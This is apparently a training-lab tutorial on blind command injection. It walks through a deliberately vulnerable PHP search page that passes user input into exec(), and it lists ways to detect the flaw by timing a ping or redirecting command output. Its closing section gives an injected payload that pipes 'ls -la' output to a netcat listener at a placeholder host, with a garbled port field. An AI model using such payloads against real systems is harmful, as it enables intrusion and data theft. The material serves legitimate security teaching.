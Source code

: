 **What is Blind Command Injection?**

Blind command injection occurs when the system call that's being made does not return the response of the call to the Document Object Model (or DOM).  The DOM is where the HTML is rendered.  This walkthrough isn't about web development so for the purposes of this room, you can consider the DOM the canvas of an HTML document.

Sometimes the user inputs a test command to try to see if the server is vulnerable to command injection, the command is executed by the server-side code on the server and the code doesn't output the response.  For example, let's look at the code for the Directory Search application that Evil Corp developed.  It's very poorly written and is vulnerable to blind command injection.  See if you can figure out why before continuing on.  I'll explain it below.

**Directory Search (index.php) Code Example**

![](https://i.imgur.com/lB8diiC.png)

In pseudocode, the above snippet is doing the following:

1. Checking if the parameter "username" is set
2. If it is, then the variable `$username` gets what was passed into the input field
3. The variable `$command` gets the system command `"awk -F: '{print $1}' /etc/passwd | grep $username";` where `$username` is what was entered in step 2.  This command is printing out the list of users from `/etc/passwd` and then selecting the one that was entered.  Note that this is not executing anything yet.
4. Variable `$returned_user` then gets the result/return value of the function `exec($command)`.

The rest of the code is fairly straightforward; set `$result` to a Bootstrap danger alert class if nothing was found in `/etc/passwd` and a success alert class if something was found.  Easy-peasy.

**Ways to Detect Blind Command Injection**

As I mentioned above, blind command injection occurs when the response of the HTTP request is not returned to the DOM.  You can see in the above code that the response is never returned anywhere on the page.  The only thing that gets returned is an alert that says whether a user was found on the system or not.  For the purposes of this room, I made the alert tell you what was going on, but sometimes it won't be that easy.  So here are a few ways to tell whether you have blind command injection or not.

**Ping!**

Yes, your friend ping can help you tell whether you have blind command injection or not.  Since the code is making a system call in some way, a ping will cause the page to continue loading until the command has completed.  So if you send a ping with 10 ICMP packets, the page should be loading for about 10 seconds.  If you send 20(!) packets, it should take about 20 seconds, and so on.

**Redirection of Output**

Ping is usually enough to tell you whether you have blind command injection, but if you want to test further, you can attempt to redirect the output of a command to a file, then, using the browser, navigate to the page where the file is stored.  We all know the > Bash operator redirects output to a file or process so you could try redirecting the output of id, whoami, netstat, ip addr or other useful command to see if you can see the results.

**Bypassing the Blind Injection with Netcat**

In the spirit of full disclosure, there is a way to bypass the blind injection with netcat.  You are able to pipe the output of a command to a nc listener.  You could do something like `root; ls -la | nc {VPN_IP} {PORT12**123:))}` . This will send the output of `ls -la` to your netcat listener.
